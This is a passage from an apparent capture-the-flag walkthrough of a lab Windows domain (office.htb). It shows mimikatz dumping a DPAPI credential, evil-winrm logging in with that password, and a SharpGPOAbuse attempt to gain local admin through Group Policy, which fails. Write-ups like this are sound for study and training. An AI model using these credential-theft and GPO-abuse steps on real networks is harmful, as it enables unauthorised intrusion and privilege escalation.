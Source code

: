 ```console
  unk1           : 00000000 - 0
  TargetName     : Domain:interactive=OFFICE\HHogan
  UnkData        : (null)
  Comment        : (null)
  TargetAlias    : (null)
  UserName       : OFFICE\HHogan
  CredentialBlob : H4ppyFtW183#
  Attributes     : 0

mimikatz(commandline) # exit
Bye!
```

### GPO Abuse
With the found DPAPI credentials we can now get a WinRM session with the user `HHogan`. This user is a member of the `GPO Managers` group and there are a few GPOs in the domain.

```console
$ evil-winrm -i 10.10.11.3 -u hhogan -p 'H4ppyFtW183#'
*Evil-WinRM* PS C:\Users\HHogan\Documents> Get-GPO -All | Select-Object DisplayName

DisplayName
-----------
Windows Firewall GPO
Default Domain Policy
Default Active Directory Settings GPO
Default Domain Controllers Policy
Windows Update GPO
Windows Update Domain Policy
Software Installation GPO
Password Policy GPO
```

We can assume that this user can edit GPOs (this can be confirmed by running BloodHound). GPOs, or Group Policy Objects, are policies that Windows uses to manage computers at scale. We can use a tool [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) in order to create a Policy that adds us as a local admin.

```console
*Evil-WinRM* PS C:\Programdata> .\SharpGPOAbuse.exe --AddLocalADmin --UserAccount HHogan --GPOName "Windows Firewall GPO"
[+] Domain = office.htb
[+] Domain Controller = DC.office.htb
[+] Distinguished Name = CN=Policies,CN=System,DC=office,DC=htb
[+] SID Value of HHogan = S-1-5-21-1199398058-4196589450-691661856-1108
[+] GUID of "Windows Firewall GPO" is: {04FE5C75-0078-4D44-97C5-8A796BE906EC}
Access to the path '\\office.htb\SysVol\office.htb\Policies\{04FE5C75-0078-4D44-97C5-8A796BE906EC}\Machine\Microsoft\Windows NT\SecEdit\' is denied.[!] 
Exiting...
```

The first policy fails, so lets try to use the second one.
